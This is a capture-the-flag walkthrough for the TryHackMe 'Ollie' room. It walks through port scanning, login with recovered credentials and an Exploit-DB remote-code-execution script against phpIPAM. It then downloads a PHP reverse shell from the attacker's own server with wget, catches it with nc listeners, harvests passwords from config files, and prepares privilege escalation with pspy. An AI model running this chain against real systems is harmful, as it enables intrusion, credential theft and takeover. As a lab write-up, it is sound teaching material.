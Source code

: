 # Ollie

**Room Link:** [https://tryhackme.com/room/ollie](https://tryhackme.com/room/ollie)

## Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (14) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Scan all ports

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## TCP/80 - HTTP

**Kali**

```
gobuster dir -u $VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



## TCP/1337 - waste

**Kali**

```
nc -v $VICTIM 1337
```



<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## TCP/80 - HTTP

**Browser**

```
Username: admin
Password: OllieUnixMontgomery!
```



<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Initial Shell

**Exploit:** [https://www.exploit-db.com/raw/50963](https://www.exploit-db.com/raw/50963)



**Kali**

```
python3 exploit.py  -usr admin -pwd OllieUnixMontgomery! -cmd 'whoami' -url http://$VICTIM
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can run commands from the browser as well.

<figure><img src="../../.gitbook/assets/image (633).png" alt=""><figcaption></figcaption></figure>

Got this php reverse shell, just changed the IP

**Kali**

```
git clone https://github.com/pentestmonkey/php-reverse-shell
cd php-reverse-shell
subl php-reverse-shell.php 
python2 -m SimpleHTTPServer 81
```

**Kali**

```
nc -lvnp 1234
```

We have access to write to the immaolllieeboyyy directory so we put our shell there.

**Browser**

```
wget http://$KALI:81/php-reverse-shell.php -O immaolllieeboyyy/test.php
```

**Browser**

<pre><code><strong>http://VICTIM:/immaolllieeboyyy/test.php
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (635).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (636).png" alt=""><figcaption></figcaption></figure>

Get autocomplete

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
ctrl + Z
stty raw -echo;fg
```

**Victim**

```
cd /var/www/html
grep -ir "pass" config.php -A4 -B4
```

<figure><img src="../../.gitbook/assets/image (637).png" alt=""><figcaption></figcaption></figure>

We can login to mysql but didn't find anything

**Victim**

```
mysql -uphpipam_ollie -pIamDah1337estHackerDog!
```



**Victim**

```
su ollie
Password: OllieUnixMontgomery!
```

<figure><img src="../../.gitbook/assets/image (638).png" alt=""><figcaption></figcaption></figure>

## PSPY

**Kali**

```
wget http://$KALI:81/pspy32 
chmod +x pspy32 
./pspy32 
```

**Victim**

```
cd /tmp/
wget http://10.10.231.159:81/pspy32 
chmod +x pspy32 
./pspy32
find / -name "feedme" 2>/dev/null 
```

<figure><img src="../../.gitbook/assets/image (640).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

<figure><img src="../../.gitbook/assets/image (641).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (642).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
nc -lvnp 1338
```

<figure><img src="../../.gitbook/assets/image (643).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (644).png" alt=""><figcaption></figcaption></figure>

